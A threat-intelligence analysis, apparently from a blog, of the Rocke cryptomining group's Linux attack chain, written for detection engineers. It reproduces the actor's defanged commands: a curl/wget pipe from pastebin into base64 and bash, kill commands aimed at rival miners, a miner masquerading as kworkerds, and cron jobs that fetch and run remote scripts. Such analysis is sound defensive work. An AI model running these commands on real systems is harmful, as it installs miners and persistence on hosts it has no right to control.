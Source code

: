 code repository.(curl -fsSL hxxps://pastebin[.]com/raw/sF3gViaw || wget -q -O- hxxps://pastebin[.]com/raw/sF3gViaw)|base64 -d |/bin/bashThe above command is a first stage script that delivers further payloads to a host. It uses the curl or wget command—depending on which is present on the host—then uses the base64 utility to deobfuscate the downloaded code and execute that result using the bash command shell. The second stage delivered is quite lengthy, and we’ll collapse it to only the relevant portions for detection here.Stopping Competing MinersThe first part of the second stage script delivered by Rocke attempts to stop other cryptocurrency miner processes with commands such as:pkill -f xmrig pkill -f Loopback pkill -f apaceha pkill -f cryptonight pkill -f stratum pkill -f minerdThese commands eliminate potential competition for resources on an infected system, but they also present a potentially high-fidelity alert for defenders. Most environments do not commonly execute these pkill commands with command line options including miner names.Discovering Competing Miners Using Network Connections (T1049)After these process stopping commands, Rocke conducts additional reconnaissance to determine if unknown miners are executing on the system using the netstat command. By stringing the output of netstat together with text searches, the actor searches for additional processes to stop:netstat -anp | grep :3333 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9 netstat -anp | grep :4444 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9 netstat -anp | grep :5555 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9System administrators may commonly use the netstat command, but most operational environments probably don’t often use grep commands to search for the strings :3333, :4444, or :5555. These grep commands—along with the pkill commands above—present an interesting phenomenon: they are common fixtures among cryptocurrency miner script payloads for Linux in general that are not exclusive to Rocke. For research on your own, you can perform a quick Google search to verify this using the following terms:"pkill" "xmrig" site:pastebin.comWhile traditional command line logging is rarely implemented on most Linux systems, EDR solutions or other audit technologies that keep this information allow a focused detection approach, even into historical records.Miner Payload Execution and Masquerading (T1036)Once the path has been cleared of other miners, Rocke then deploys its mining payload.(curl -fsSL --connect-timeout 120 hxxps://master[.]minerxmr[.]ru/One/c -o /var/tmp/config.json||wget hxxps://master[.]minerxmr[.]ru/One/c -O /var/tmp/config.json) && chmod +x /var/tmp/config.json(curl -fsSL --connect-timeout 120 hxxps://master[.]minerxmr[.]ru/One/x1 -o /var/tmp/kworkerds||wget hxxps://master[.]minerxmr[.]ru/One/x1 -O /var/tmp/kworkerds) && chmod +x /var/tmp/kworkerdsnohup /var/tmp/kworkerds >/dev/null 2>&1 &As with previous payload deliveries, the miner itself is downloaded using curl or wget. First, a config.json file containing miner configuration data is written to the /tmp folder followed shortly after by a miner binary itself named kworkerds. The miner is executed using the nohup command, discarding the output and allowing the binary to execute in the background with a trailing ampersand (&) in the command line.Execution in this manner is a form of masquerading, as the binary is named partially after a Linux kernel worker thread. Linux systems will execute processes named kworker all the time, but the processes will not use a binary in a /tmp folder. This becomes a high fidelity behavior to use for alerts.Persisting with Cron Jobs (T1168)Rocke uses cron jobs to persist on victim systems. Cron is a *NIX technology analogous to (and long predating) Scheduled Tasks in Windows. It gives system administrators the ability to execute commands on a schedule without the need to be logged in to a system. It also allows them the ability to schedule commands to execute as non-administrator users on a system. When adversaries manipulate cron jobs, they usually do so in one of two ways:Replacing the cron schedule, known as a crontab, with their ownPlacing a malicious script in a folder known to contain scripts that will execute hourly, daily, or weekly as part of existing cron jobsIn this case, Rocke uses both options. They placed malicious scripts into folders known to execute during cron jobs. This is achieved by using curl or wget, depending on system support, to download a bash shell script and write it into numerous folders:/etc/cron.hourly/oanacroner/etc/cron.daily/oanacroner/etc/cron.monthly/oanacroner(curl -fsSL --connect-timeout 120 hxxps://pastebin[.]com/raw/1NtRkBc3 -o /etc/cron.hourly/oanacroner||wget hxxps://pastebin[.]com/raw/1NtRkBc3 -O /etc/cron.hourly/oanacroner)Depending on the configuration of a Linux system, crontab schedules may exist in numerous locations for multiple users. Rocke takes advantage of this to modify crontabs in these locations:/etc/cron.d/root/etc/cron.d/apache/var/spool/cron/root/var/spool/cron/crontabs/rootecho -e "*/10 * * * * root (curl -fsSL hxxps://pastebin[.]com/raw/1NtRkBc3||wget -q -O- hxxps://pastebin[.]com/raw/1NtRkBc3)|sh\n##" > /etc/cron.d/rootTo modify these schedules, Rocke directly modifies the files by echoing content into them as shown above. This method of editing crontab schedules is used by other adversaries, and we’ve also found other adversaries use the crontab system utility to replace schedules in a different fashion. The echo method is harder to observe using EDR data as echo is an internal shell command rather than a utility.Defense EvasionHiding Processes with Process Injection (T1055)Rocke uses a novel method to hide the execution of kworkerds from casual observation. The adversary uses a modified version of the libprocesshider project compiled as a